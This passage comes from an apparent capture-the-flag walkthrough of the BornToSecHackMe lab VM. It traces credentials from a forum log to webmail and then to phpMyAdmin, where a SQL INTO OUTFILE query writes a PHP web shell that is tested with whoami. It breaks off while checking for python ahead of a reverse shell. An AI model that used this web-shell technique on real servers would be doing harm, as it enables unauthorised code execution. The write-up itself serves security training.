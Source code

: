 	```
	https://<vm-ip>/forum
	```

	You can find a post titled **"Probleme login ?"** by the user **lmezard**, dated *2015-10-08 00:10*.

	Inside the forum post (or associated logs), notice a suspicious log line:

	```
	Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
	```

	This is an SSH authentication failure showing an attempted login with a password.
	Using the forum's user interface, we can find the **Users** button at the top right corner of the forum page. On the Users page, several users are listed. The password from the log matches the user **lmezard**.

	In the profile or edit profile page of the user **lmezard**, we can find the registered email address:

	```
	laurie@borntosec.net
	```

6. Accessing Webmail and Database Credentials

	Logged into **webmail** with lmezard's credentials and the same password as the forum password.

	In the email titled "DB Access" we see:

	```
	Use root/Fg-'kKXBj87E:aJ$ to access databases.
	```

	We can use these credentials to login to **phpMyAdmin** at `/phpmyadmin`.

7. SQL Injection and Remote Code Execution

	In phpMyAdmin's SQL tab, we can execute:

	```sql
	SELECT "<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>" 
	INTO OUTFILE '/var/www/forum/templates_c/payload.php';
	```

	Verify webshell access:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=whoami
	```

	Confirm it outputs `www-data`.

8. Getting Reverse Shell

	Checked for Python binary:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=which%20python
	```
